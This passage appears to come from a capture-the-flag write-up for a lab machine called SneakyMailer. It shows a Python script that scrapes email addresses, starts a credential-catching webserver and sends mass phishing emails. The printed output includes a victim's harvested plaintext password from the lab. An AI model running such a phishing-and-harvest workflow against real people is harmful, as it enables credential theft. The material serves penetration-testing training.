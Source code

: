This code handles get and post requests. For post requests, it url-decodes the response and prints the body.

Now that we have the code, we can parse all the emails from the website, start a webserver running as a thread, then send the phishing emails.

```python
# Get data from website
data = get_data()
# Parse usernames and mails from data
usernames, mails = parse_data(data)
# Start webserver for phising
Thread(target=setup_server).start()
# Start phishing
phish_mass(mails) # Fast (1 e-mail)
#phish(mails) # Slower (n e-mails)
```

If we now run the script, we get following output:

```python
root@darkness:~# python3 phish.py 

   _____                  _          __  __       _ _              
  / ____|                | |        |  \/  |     (_) |
 | (___  _ __   ___  __ _| | ___   _| \  / | __ _ _| | ___ _ __
  \___ \| '_ \ / _ \/ _` | |/ / | | | |\/| |/ _` | | |/ _ \ '__|
  ____) | | | |  __/ (_| |   <| |_| | |  | | (_| | | |  __/ |
 |_____/|_| |_|\___|\__,_|_|\_\\__, |_|  |_|\__,_|_|_|\___|_|
  _____  _     _     _          __/ |
 |  __ \| |   (_)   | |        |___/
 | |__) | |__  _ ___| |__   ___ _ __
 |  ___/| '_ \| / __| '_ \ / _ \ '__|
 | |    | | | | \__ \ | | |  __/ |
 |_|    |_| |_|_|___/_| |_|\___|_|
  _              _____ _           ___         __        ____
 | |            / ____| |         / _ \       / /       / __ \
 | |__  _   _  | |    | |__  _ __| | | |_  __/ /_   ___| |  | |___
 | '_ \| | | | | |    | '_ \| '__| | | \ \/ / '_ \ / _ \ |  | / __|
 | |_) | |_| | | |____| | | | |  | |_| |>  <| (_) |  __/ |__| \__ \
 |_.__/ \__, |  \_____|_| |_|_|   \___//_/\_\\___/ \___|\____/|___/
         __/ |
        |___/

    
[+] Got 57 entries!
[+] Parsed data!
[+] Started HTTP-Server!
[*] Sending mass mail...
[*] Got POST request from 10.10.10.197...

[DEBUG] Full body:
{b'firstName': [b'Paul'], b'lastName': [b'Byrd'], b'email': [b'paulbyrd@sneakymailer.htb'], b'password': [b'^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht'], b'rpassword': [b'^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht']}
```
